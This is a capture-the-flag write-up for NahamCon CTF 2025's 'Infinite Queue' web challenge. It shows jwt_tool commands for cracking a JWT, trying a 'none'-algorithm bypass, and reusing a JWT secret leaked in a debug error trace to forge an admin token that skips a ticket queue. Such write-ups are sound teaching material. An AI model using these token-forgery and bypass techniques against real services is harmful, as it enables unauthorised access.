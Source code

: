 ```yaml
---
name: Infinite Queue (2025)
event: NahamCon CTF 2025
category: Web
description: Writeup for Infinite Queue (Web) - NahamCon CTF (2025) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: false
    outline:
        visible: true
    pagination:
        visible: true
---
```


# Infinite Queue

## Description

> Oh my god, I just can't with these concert ticket queues. It's gotten out of control.

## Solution

We get through to a band website for `Infinite Queue`, pretty cool.

![](images/0.PNG)

If we click the `Buy Tickets` option, we'll be placed in a queue for a very long time.

![](images/1.PNG)

Checking burp, we see that the `queue_position` is retrieved by sending a JWT token to `/check_queue`. Check the details with [jwt_tool](https://github.com/ticarpi/jwt_tool)

{% code overflow="wrap" %}
```bash
jwt_tool eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyX2lkIjoiJyIsInF1ZXVlX3RpbWUiOjE3NTM4ODc4NDEuODM4ODM2LCJleHAiOjUzNDgwMzA1MjF9.r8zkmJfULj4j9XoPBiO69Gra5xAGvsotV0XoYZVE-Cs

Token header values:
[+] alg = "HS256"
[+] typ = "JWT"

Token payload values:
[+] user_id = "'"
[+] queue_time = 1753887841.838836
[+] exp = 5348030521    ==> TIMESTAMP = 2139-06-22 13:02:01 (UTC)
```
{% endcode %}

The token is signed with `HS256`, symmetric encryption. I try to crack it with rockyou, but fail.

{% code overflow="wrap" %}
```bash
jwt_tool eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyX2lkIjoiJyIsInF1ZXVlX3RpbWUiOjE3NTM4ODc4NDEuODM4ODM2LCJleHAiOjUzNDgwMzA1MjF9.r8zkmJfULj4j9XoPBiO69Gra5xAGvsotV0XoYZVE-Cs -C -d /usr/share/wordlists/rockyou.txt
```
{% endcode %}

Try it with the `None` alg.

{% code overflow="wrap" %}
```bash
jwt_tool eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyX2lkIjoiJyIsInF1ZXVlX3RpbWUiOjE3NTM4ODc4NDEuODM4ODM2LCJleHAiOjUzNDgwMzA1MjF9.r8zkmJfULj4j9XoPBiO69Gra5xAGvsotV0XoYZVE-Cs -X a

EXPLOIT: "alg":"nOnE" - this is an exploit targeting the debug feature that allows a token to have no signature
(This will only be valid on unpatched implementations of JWT.)
[+] eyJhbGciOiJuT25FIiwidHlwIjoiSldUIn0.eyJ1c2VyX2lkIjoiJyIsInF1ZXVlX3RpbWUiOjE3NTM4ODc4NDEuODM4ODM2LCJleHAiOjUzNDgwMzA1MjF9.
```
{% endcode %}

I actually got a big error trace from using this token.

{% code overflow="wrap" %}
```json
"error_details":{"debug_mode":false,"environment":{"GPG_KEY":"E3FF2839C048B25C084DEBE9B26995E310250568","HOME":"/root","HOSTNAME":"infinite-queue-68fe983afb25c760-584ffc466-5f47l","JWT_SECRET":"4A4Dmv4ciR477HsGXI19GgmYHp2so637XhMC","KUBERNETES_PORT":"tcp://34.118.224.1:443","KUBERNETES_PORT_443_TCP":"tcp://34.118.224.1:443","KUBERNETES_PORT_443_TCP_ADDR":"34.118.224.1","KUBERNETES_PORT_443_TCP_PORT":"443","KUBERNETES_PORT_443_TCP_PROTO":"tcp","KUBERNETES_SERVICE_HOST":"34.118.224.1","KUBERNETES_SERVICE_PORT":"443","KUBERNETES_SERVICE_PORT_HTTPS":"443","LANG":"C.UTF-8","PATH":"/usr/local/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin","PYTHON_SHA256":"8c136d199d3637a1fce98a16adc809c1d83c922d02d41f3614b34f8b6e7d38ec","PYTHON_VERSION":"3.9.22","WERKZEUG_SERVER_FD":"3"},"error":"The specified alg value is not allowed","request_data":{"token":"eyJhbGciOiJuT25FIiwidHlwIjoiSldUIn0.eyJ1c2VyX2lkIjoiJyIsInF1ZXVlX3RpbWUiOjE3NTM4ODc4NDEuODM4ODM2LCJleHAiOjUzNDgwMzA1MjF9."},"time":"2025-05-23T21:24:36.552750"}
```
{% endcode %}

The notable part is `The specified alg value is not allowed`. I try the JWT editor extension in burp with a few different attacks too, e.g. signing with empty key returns `Signature verification failed`.

Wait, I just realised the `JWT_SECRET` is in the response lol.

{% code overflow="wrap" %}
```
4A4Dmv4ciR477HsGXI19GgmYHp2so637XhMC
```
{% endcode %}

We can test it with the JWT tool.

{% code overflow="wrap" %}
```bash
jwt_tool eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyX2lkIjoiJyIsInF1ZXVlX3RpbWUiOjE3NTM4ODc4NDEuODM4ODM2LCJleHAiOjUzNDgwMzA1MjF9.r8zkmJfULj4j9XoPBiO69Gra5xAGvsotV0XoYZVE-Cs -C -p 4A4Dmv4ciR477HsGXI19GgmYHp2so637XhMC

Password provided, checking if valid...
[+] CORRECT key found:
4A4Dmv4ciR477HsGXI19GgmYHp2so637XhMC
You can tamper/fuzz the token contents (-T/-I) and sign it using:
python3 jwt_tool.py [options here] -S hs256 -p "4A4Dmv4ciR477HsGXI19GgmYHp2so637XhMC"
```
{% endcode %}

OK, we follow it's instructions while setting the queue time to `0`.

{% code overflow="wrap" %}
```bash
jwt_tool eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyX2lkIjoiJyIsInF1ZXVlX3RpbWUiOjE3NTM4ODc4NDEuODM4ODM2LCJleHAiOjUzNDgwMzA1MjF9.r8zkmJfULj4j9XoPBiO69Gra5xAGvsotV0XoYZVE-Cs -S hs256 -p "4A4Dmv4ciR477HsGXI19GgmYHp2so637XhMC" -T
```
{% endcode %}

I set the `user_id` to `admin` and the `queue_time` to `1.0`.

{% code overflow="wrap" %}
```bash
jwt_tool eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyX2lkIjoiYWRtaW4iLCJxdWV1ZV90aW1lIjoxLjAsImV4cCI6NTM0ODAzMDUyMX0.CWzWY422QgpBwUJwbeU-tdDyfQ7s1zhinbj6TKMbk74

Token header values:
[+] alg = "HS256"
[+] typ = "JWT"

Token payload values:
[+] user_id = "admin"
[+] queue_time = 1.0
[+] exp = 5348030521    ==> TIMESTAMP = 2139-06-22 13:02:01 (UTC)
```
{% endcode %}

When we update the token in burp, we get some good news.

{% code overflow="wrap" %}
```json
{ "message": "Your turn has arrived! You can now purchase tickets.", "status": "ready" }
```
{% endcode %}

We can now purchase the ticket.

![](images/2.PNG)

It opens a PDF document containing the flag!

Flag: `flag{b1bd4795215a7b81699487cc7e32d936}`
